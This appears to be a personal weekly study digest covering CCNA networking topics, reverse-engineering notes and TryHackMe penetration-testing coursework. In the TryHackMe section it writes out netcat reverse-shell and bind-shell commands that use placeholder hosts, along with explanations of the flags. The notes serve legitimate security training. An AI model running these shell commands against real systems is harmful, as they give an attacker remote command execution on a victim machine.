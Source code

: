 ```yaml
---
title: CW06 Weekly Digest
date: 2024-02-11
author: hexxie
description: List of materials that I've learned this week
---
```


As usual, listing my collection of materials for the current week. Today's digest contains collections for CW5 and CW6. 


## CCNA Progress

### Subnetting
I've started with the subnetting practice. It's where you have to divide the network into subnets with CIDR notation. Basically, I have to calculate the network address, broadcast address, and first and last useful address.   

[How to track Subnetting progress](https://learning.oreilly.com/videos/ip-subnetting-from/9780135497869/9780135497869-ISBM_08_29_03/)

I'll add a progress table and tips and tricks soon. Noted this in my Todo list :)  

### Cisco Progress

Currently, I'm on day 20, which is a bit below my expectations. But the topics are getting complicated and I need some time to process them. 
Also, here I want to remind myself that I wanted to take this course from the programmer perspective, so it's more important to answer questions, which I have them rush through the material with the target audience - system administrators or net engineers.

Topics: VLAN, STP

### GNS3 real lab simulator

Setup simulator [here](https://yaser-rahmati.gitbook.io/gns3/). I haven't built any lab with it yet. But sounds interesting.

### Questions
Q1: Investigate IPv4 header fields. Main interest - Flags (see [THM](https://tryhackme.com/room/nmap03)) and Fragmentation.   
Q2: Why max Ethernet MTU - 1500? Find RFC  
Q3: Windows has an interface to set up VLAN ID. Is it related to 802.1Q?

## Reverse engineering

- calling conventions
- stack padding
- Microsoft shadow store
- Different registers that are used for parameters and return values

Will do articles for each. Actually, I need to dig more into this topic. I kinda skimmed them, but I want deeper knowledge. 

Q: What assembler is used in Raspberry Pi, xv6 and M1? Are they similar? Can I use xv6 and say that I know ARM asm?

## TryHackMe

### JR Penetration tester
- Metasploit console
- Red team frameworks [link](https://tryhackme.com/room/mitre) [link](https://mitre-attack.github.io/attack-navigator/)

#### Reverse shell

```
// On the attacking machine
sudo nc -lvnp 443

//On the target
nc <ip> <port> -e /bin/bash
```
- **-l** is used to tell netcat that this will be a listener
- **-v** is used to request a verbose output
- **-n** tells netcat not to resolve host names or use DNS.
- **-p** indicates that the port specification will follow.

#### Bind shell

```
//On the target
nc -lvnp <port> -e "cmd.exe"

//On the attacking machine
nc <ip> <port>
```


## Posted articles
[On learning process](https://hexxie.github.io/posts/articles/on-learning-process/)  
[Reverse engineering strategy](https://hexxie.github.io/posts/articles/reverse-learning-strategy/)

## Useful Links
[What Makes for a Successful Protocol?](https://www.rfc-editor.org/rfc/rfc5218.txt)

## Ideas
- How to conduct monthly self-retrospectives [link](https://undevelopedbruce.com/2020/09/30/the-self-retrospective/) [link](https://www.linkedin.com/pulse/self-retrospective-personal-effectiveness-rahul-shah/)
- IT character as s character in DnD [link](https://undevelopedbruce.com/dungeons-and-testing/)